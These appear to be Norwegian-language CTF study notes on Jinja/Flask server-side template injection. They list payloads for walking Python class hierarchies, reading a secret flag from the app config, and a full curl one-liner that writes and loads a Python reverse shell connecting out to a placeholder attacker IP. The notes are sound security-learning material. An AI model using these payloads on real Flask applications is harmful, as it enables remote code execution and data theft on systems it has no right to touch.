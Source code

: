 # Template injection

## Flask (Python og Jinja) - Template injection
Funksjonen `render_template_string` er sårbar og er som 
regel sårbarheten i Flask-oppgaver. 
Brukerkontrollert input til `render_template_string`, 
gjør det mulig å kjøre kode. Det gjør vi ved å legge 
inn egne templates. Eksempel på template:
```
{{1+2}}
```

Flask bruker [Jinja](https://l.messenger.com/l.php?u=http%3A%2F%2Fjinja.pocoo.org%2Fdocs%2F2.10%2F&h=AT3awb25ic-bDs9YFjYR4v7rt_QZgIWmEHtbLJ0UF-Jo6rtItGzxBfv5n_GevTe7LAlMz-CL4PvOoRkdBqP8yyJ5t5KJJWFUEl_LYbpuk-oM_QogzOS8Wn1QfcNMbR6nkao)
som er et templating språk. Flask har et objekt som heter `request` 
som i noen tilfeller brukes for å finne info. Med request kan man 
prøve å komme seg til et objekt som har oversikten over de filene 
vi ønsker. 

En fremgangsmåte er å kjøre opp kildekoden hos seg selv om den er 
tilgjengelig. Da kan man teste og lete litt rundt selv og se hvilke
funksjoner som er tilgjengelig via din template. Noen 
ganger kan man bruke en bug for å hente ut kildekoden først,
f.eks. med LFI. Deretter kan man f.eks teste ut de tingene som er 
blacklistet, for å finne ut hva som skjuler seg. Det kan være 
funksjoner som kan brukes som ellers er vanskelig å finne ut at er der. 

#### Examples
* For å komme til vilkårlige klasser 
`{{request.__class__.__mro__[8].__subclasses__()[40]....}}`, 
hvor man så må finne riktig klasse. 
* Tilsvarende kan man bruke denne for å få tak i klasser 
`{{[].__class__.__base__.__subclasses__()...}}`
* Eksempel med at `url_for` er en Flask funksjon 
som er tilgjengelig fra templaten din.  
`{{url_for.__globals__['current_app'].config['FLAG']}}`. 
Fra dette eksempelet er flagget dyttet inn i config som er
en dictionary i starten av filen, `app.config['FLAG'] = os.environ.pop('FLAG')`.
* Finne/komme seg til Flask-objektet fordi det gir full oversikt. 
(Ikke gjort før, kommer sikkert)
* Reverse shell: 
```
curl 'localhost:8088/?next={{request.__class__.__mro__[8].__subclasses__()[40](request.headers[request.headers.keys()[6]],request.headers[request.headers.keys()[6]][5]).write(request.headers[request.headers.keys()[4]])}}{{config.from_pyfile(request.headers[request.headers.keys()[6]])}}' -g -H "x-f: /tmp/w" -H 'x-p: import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("REVERSE_SHELL_IP",REVERSE_SHELL_PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Sources
* https://0day.work/ictf-2017-flasking-unicorns-writeup-or-how-we-might-have-rooted-your-ictf-vm/#flaskingunicorns
* https://0day.work/jinja2-template-injection-filter-bypasses/
